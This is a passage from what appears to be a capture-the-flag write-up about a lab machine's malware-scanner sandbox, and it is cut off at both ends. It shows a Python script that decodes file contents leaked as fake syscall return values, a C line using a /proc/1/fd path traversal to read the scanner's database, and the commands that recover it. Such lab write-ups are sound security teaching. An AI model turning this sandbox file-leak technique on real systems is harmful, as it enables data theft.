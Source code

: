 The final script is:

    
    
    #!/usr/bin/env python3
    
    import re
    import requests
    import struct
    import sys
    
    
    if len(sys.argv) < 3:
        print(f"{sys.argv[0]} [url] [file]")
        exit()
    
    resp = requests.get(sys.argv[1])
    if resp.status_code != 200:
        print("Failed to fetch page")
        exit()
    
    words = re.findall(r"sys_57311\(\) = 0x([a-f0-9]+)", resp.text)
    
    res_file = b''.join([struct.pack("Q", int(w, 16)) for w in words])
    with open(sys.argv[2], "wb") as f:
        f.write(res_file)
    

## Shell as clarence

### Exploit

I’ll modify the exploit to go after the `malscanner.db` file that I noted in
the sourcecode. The version in the source download was empty, but there could
be more in there on production.

    
    
        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../var/www/malscanner/malscanner.db", "r");
    

When I compile and upload, there are a _lot_ more Ignored Syscalls:

![image-20220907153245255](https://0xdfimages.gitlab.io/img/image-20220907153245255.png)

It works:

    
    
    oxdf@hacky$ python3 decode.py http://10.10.11.141/viewer/a8e593808380b5999301881b5c821d36/ malscanner.db
    oxdf@hacky$ file malscanner.db 
    malscanner.db: SQLite 3.x database, last written using SQLite version 3034001
    

### Get Password

#### Read malscanner.db

I’ll open the file in `sqlite3`, but it seems it’s corrupt:
